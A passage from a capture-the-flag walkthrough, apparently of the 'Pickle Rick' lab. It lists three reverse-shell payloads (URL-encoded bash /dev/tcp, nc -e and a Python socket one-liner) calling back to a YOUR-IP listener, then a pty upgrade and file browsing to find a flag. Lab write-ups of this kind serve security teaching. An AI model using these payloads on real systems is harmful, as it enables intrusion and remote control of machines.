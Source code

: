 If blocked, **URL encode** the payload:

```bash
bash%20-i%20%3E%26%20/dev/tcp/YOUR-IP/4444%200%3E%261
```
Or if that fails

```bash
nc YOUR-IP 4444 -e /bin/bash
```

Or use Python:

```python
python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("YOUR-IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash"])'
```

> 🐚 Your listener should show: `Ncat: Connection from MACHINE-IP:PORT`

```powershell
PS C:\Temp> ncat.exe -lvnp 4444
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from MACHINE-IP:PORT.
```

---

# 🔍 Privilege Escalation & Flag Hunting

Explore the file system and find the flags (ingredients):

run python3 -c 'import pty; pty.spawn("/bin/bash")' to get a bash prompt:

```bash
Ncat: Connection from MACHINE-IP:PORT.
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ip-10-10-81-100:/var/www/html$
```

Now lets find the ingredients

```bash
www-data@ip-10-10-81-100:/var/www/html$ cd /home/rick
cd /home/rick
www-data@ip-10-10-81-100:/home/rick$ ls -la
ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019  .
drwxr-xr-x 4 root root 4096 Feb 10  2019  ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 'second ingredients'
www-data@ip-10-10-81-100:/home/rick$
```

Here we found 'second ingredients' lets cat it and get the information from it. remember that `cat second ingredients` is treating it as two separate filenames we have to use **quotes** to handle the space in the filename

